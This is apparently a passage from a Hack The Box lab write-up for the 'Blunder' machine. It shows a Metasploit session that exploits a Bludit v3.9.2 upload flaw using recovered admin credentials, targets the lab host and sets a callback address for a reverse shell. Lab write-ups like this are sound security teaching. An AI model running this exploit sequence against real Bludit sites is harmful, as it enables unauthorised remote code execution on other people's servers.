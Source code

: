 ![picture3](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/blunder/6.png)

- To get into shell, there are 2 ways:
1. Manual way via [Bludit v3.9.2 Code Execution Vulnerability in "Upload function"](https://github.com/bludit/bludit/issues/1081) using Burp.
2. Automate with msf module `exploit/linux/http/bludit_upload_images_exec` :satisfied:

- Ahhh, ez way :sweat_smile:

>     msf5 > use exploit/linux/http/bludit_upload_images_exec
>     msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
>     BLUDITPASS => RolandDeschain
>     msf5 exploit(linux/http/bludit_upload_images_exec) > set BLuDITUSER fergus
>     BLuDITUSER => fergus
>     msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
>     RHOSTS => 10.10.10.191
>     msf5 exploit(linux/http/bludit_upload_images_exec) > set targeturi /admin
>     targeturi => /
>     msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.14.161
>     msf5 exploit(linux/http/bludit_upload_images_exec) > exploit
---
